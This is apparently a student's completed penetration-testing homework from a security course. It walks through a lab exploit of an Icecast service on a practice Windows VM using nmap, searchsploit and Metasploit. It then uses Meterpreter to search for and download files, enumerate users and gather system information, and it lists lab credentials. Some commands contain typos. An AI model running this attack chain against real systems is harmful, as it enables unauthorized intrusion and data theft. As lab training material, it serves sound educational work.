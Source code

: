 Andrew Stone ## Week_17 Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer:  nmap -sV 192.168.0.20

       ![nmap](https://github.com/iastoneCO/Images.git/Images/nmap-ip-address.jpg)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
                               
     > Answer: searchsploit icecast

     ![searchsploit-icecase](Images/searchsploit-icecase.jpg)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer:  msfconsole
 

 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search icecast 

     ![searchicecast](Images/msfconsole-searchicecast.jpg)

                      
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer:  use 0

  
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: set RHOST 192.168.0.20

     ![RHOST](Images/rhostoptions.jpg)
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: exploit (or run)
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: search -f *searchfile*.txt
	(c:\Users\IEUser\Documents\user.secretfile.txt (161 bytes)

        ![secretfile](Images/secretfile.jpg)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer:  search -f *recipe*.txt 
	(c:\User\IEUser\Documents\Drinks.recipe.txt (48 bytes)
              

        ![recipe](Images/Drinksrecipe.jpg)

         
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: Download ‘c:\User\IEUser\Documents\Drinks.recipe.txt’

      ![download](Images/download-recipe-text.jpg)
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
  
                  Run post/multi/recon/local_exploit_suggester

       ![local](Images/local-exploit-suggester.jpg)

#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/emu_logged_on_user
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: shell and sysinfo
  ![shell](Images/shell-1.jpg)
  ![shell](Images/sysinfo.jpg)
                         
 
C. Run the command that displays the target's computer system information:

   > Answer:  systeminfo  

 ![hostname](Images/hostname.jpg)
